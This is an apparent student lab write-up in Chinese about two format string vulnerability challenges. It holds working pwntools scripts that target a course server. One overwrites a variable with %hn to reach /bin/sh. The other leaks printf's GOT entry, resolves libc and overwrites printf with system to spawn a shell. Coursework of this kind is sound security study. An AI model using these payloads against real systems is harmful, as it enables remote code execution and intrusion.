



# 格式化字符串漏洞

## Fsb1

​	首先，根据GDB的调试，buffer字符串存储在栈上offset为8的位置；同时，在程序中输出了x变量的实际地址位置。根据这两个条件，利用%hn修改x变量的值，使得程序调用vuln_code()函数，进而执行"/bin/sh"，完成攻击。

​	在攻击过程中，构造payload=b"AAB%9$hn"+p64(address_x)，其中AAB用于对齐指令，使得x的地址位于buffer的第二个位置，即栈上offset为9的位置。然后在printf(buffer)时，程序调用%hn命令，修改x的值，完成攻击。

 

```python
from pwn import *
p=remote('8.154.20.109',10300)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b"x is: ")
address_x=p.recvline().decode().strip()
print(hex(int(address_x, 16)))

target=p64(int(address_x,16))
payload=b""
payload+=b"AAB%9$hn"
payload+=target
p.sendline(payload)

p.interactive()
```

  

## Fsb2

​	程序中printf()函数多次被执行，可以通过劫持printf的地址，根据偏移量利用格式化字符串漏洞将printf地址的值修改为system函数，然后传输“/bin/sh”字符串，完成攻击。

​	首先，根据GDB的调试可知，buffer存储在栈上offset=6的位置，通过计算可知buffer的最后一个元素存储在offset=37的位置。在攻击过程中，先通过ELF获取printf的got表地址。在第一轮循环中，构造payload=b"%37$s"+b"A"*(256-len(payload)-8)+p64(printf_got)，利用%s泄露出printf在系统中的实际地址。在第二轮循环中，利用fmtstr_payload构造payload将第一轮循环中获取的地址加上system()与printf()的偏移量，即将内存中的printf()修改为system，最后传输“/bin/sh”完成攻击。

 

```python
from pwn import *
from LibcSearcher import *
from fmtstr import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
# p=process('./fsb2')
p=remote('8.154.20.109',10301)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
elf=ELF('./fsb2')
printf_got=elf.got['printf']
# print(hex(printf_got))
payload=b"%37$s"
payload+=b"A"*(256-len(payload)-8)
payload+=p64(printf_got)
# info(f"payload = {payload}")
p.sendline(payload)
p.recvuntil("Here comes your challenge:\n")
recv = p.recv()
# info(f"recv={recv}")
printf_addr=u64(recv[:6]+b"\x00\x00")
# info(f"printf_addr={hex(printf_addr)}")
libc = LibcSearcher("printf", printf_addr)
printf_offset = libc.dump('printf')
system_offset = libc.dump('system')
system_addr = printf_addr - printf_offset + system_offset
# print(hex(system_addr))
offset=6
payload = fmtstr_payload(offset, {printf_got: system_addr},write_size='short')
print(payload)
p.send(payload)
p.recv()
p.send(b"/bin/sh\0")
p.interactive()
```

 
